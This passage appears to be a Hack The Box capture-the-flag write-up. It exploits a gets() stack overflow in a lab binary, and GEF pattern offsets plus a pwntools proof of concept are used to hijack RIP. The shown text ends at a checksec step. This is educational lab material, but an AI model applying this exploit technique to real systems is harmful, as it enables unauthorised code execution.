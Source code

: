 ```
  printf("\nWhat do you want me to echo back? ");
  gets(local_78);
  puts(local_78);
  return 0;
}
```
Gets function are notoriously vulnerable and allows attackers to overwrite the stack.  
So, let's open gdb (GEF) and start debugging this app.  
First of all let's try to generate a buffer overflow:
```
gef➤  pattern create 200                    
[+] Generating a pattern of 200 bytes (n=8)
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaa
[+] Saved as '$_gef0'
```
Now we can use this string as input of puts() and see if we can generate a buffer overflow, and if so, we can use ```pattern offset``` to check at what offset we can overwrite the stack.  
```
gef➤  pattern offset paaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaava
[+] Searching for 'paaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaava'
[+] Found at offset 120 (big-endian search)
```
Now that we've found the offset let’s start crafting a first proof of concept and see if we can control ```RIP```.  
We can write the following PoC and set a breakpoint to main in order to see if we can hit the same breakpoint twice, if so, this means that we managed to hijack the execution:
```
from pwn import *

context(terminal=['tmux','new-window']) # Default terminal used by pwnlib.util.misc.run_in_new_terminal().
                         # Can be a string or an iterable of strings.
                         # In the latter case the first entry is the terminal and the rest are default arguments.
p = gdb.debug('./myapp', 'b main')
context(os='linux', arch='amd64')

junk = ("A"*120).encode() # Converting string to bytes
call_main=p64(0x0040115f)

p.recvuntil('What do you want me to echo back?')
p.sendline(junk + call_main )
```
Now, if we follow the execution step by step, we can see that when the execution is almost come to the end of main, when we hit RET, we see a call for <main+0> again, so this means that we manage to overwrite the stack pointer. By design, when a function returns, the execution of the program proceed with the first address at the top of the stack (if any), in this case main.
```
0x4011a1 <main+66>        call   0x401030 <puts@plt>
 0x4011a6 <main+71>        mov    eax, 0x0
 0x4011ab <main+76>        leave  
→   0x4011ac <main+77>        ret    
↳    0x40115f <main+0>         push   rbp
    0x401160 <main+1>         mov    rbp, rsp
    0x401163 <main+4>         sub    rsp, 0x70
    0x401167 <main+8>         lea    rdi, [rip+0xe9a]        # 0x402008
    0x40116e <main+15>        call   0x401040 <system@plt>
    0x401173 <main+20>        lea    rdi, [rip+0xe9e]        # 0x402018
```
Now that we've seen that we can hijack the execution let's see what we can do:
```
gef➤  checksec
[+] checksec for '/root/Documents/HTB/Boxes/Safe/myapp'
```